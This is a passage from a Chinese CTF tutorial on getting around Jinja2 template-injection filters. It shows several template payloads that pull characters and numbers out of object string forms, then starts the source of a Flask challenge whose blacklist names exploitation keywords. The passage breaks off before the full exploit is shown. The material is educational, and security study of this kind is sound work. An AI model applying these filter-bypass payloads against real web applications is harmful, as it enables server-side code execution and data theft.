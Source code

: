 ```
{% set org = ({ }|select()|string()) %}{{org}}
```

![img](https://xzfile.aliyuncs.com/media/upload/picture/20210525174659-26b17380-bd3e-1.png)

上上图所示，我们可以通过 `<generator object select_or_reject at 0x7fe339298fc0>` 字符串获取的字符有：尖号、字母、空格、下划线和数字。

```
{% set org = (self|string()) %}{{org}}
```

![img](https://xzfile.aliyuncs.com/media/upload/picture/20210525174700-26d65cf4-bd3e-1.png)

如上图所示，可以通过 `<TemplateReference None>` 字符串获取的字符有：尖号、字母和空格。

```
{% set org = self|string|urlencode %}{{org}}
```

![img](https://xzfile.aliyuncs.com/media/upload/picture/20210525174700-2704f384-bd3e-1.png)

如上图所示，可以获得的字符除了字母以外还有百分号，这一点比较重要，因为如果我们控制了百分号的话我们可以获取任意字符，这个在下面第二道题中会讲到。

```
{% set org = (app.__doc__|string) %}{{org}}
```

![img](https://xzfile.aliyuncs.com/media/upload/picture/20210525174700-2731127a-bd3e-1.png)

如上图所示，可获得到的字符更多了。

- 对于获取数字，除了当菜出现的那几种外我们还可以有以下几种方法：

```
{% set num = (self|int) %}{{num}}    # 0, 通过int过滤器获取数字
{% set num = (self|string|length) %}{{num}}    # 24, 通过length过滤器获取数字
{% set point = self|float|string|min %}    # 通过float过滤器获取点 .
```

有了数字0之后，我们便可以依次将其余的数字全部构造出来，原理就是加减乘除、平方等数学运算。

下面我们通过两道题目payload的构造过程来演示一下如何使用过滤器来Bypass。

### \[2020 DASCTF 八月安恒月赛\]ezflask

题目源码：

#!/usr/bin/env python
\# -*- coding: utf-8 -*-
from flask import Flask, render_template, render\_template\_string, redirect, request, session, abort, send\_from\_directory
app = Flask(\_\_name\_\_)

@app.route("/")
def index():
    def safe_jinja(s):
        blacklist = \['class', 'attr', 'mro', 'base',
                     'request', 'session', '+', 'add', 'chr', 'ord', 'redirect', 'url_for', 'config', 'builtins', 'get\_flashed\_messages', 'get', 'subclasses', 'form', 'cookies', 'headers', '\[', '\]', '\\'', '"', '{}'\]
        flag = True
        for no in blacklist:
            if no.lower() in s.lower():
                flag = False
                break
        return flag
    if not request.args.get('name'):
        return open(\_\_file\_\_).read()
    elif safe_jinja(request.args.get('name')):
        name = request.args.get('name')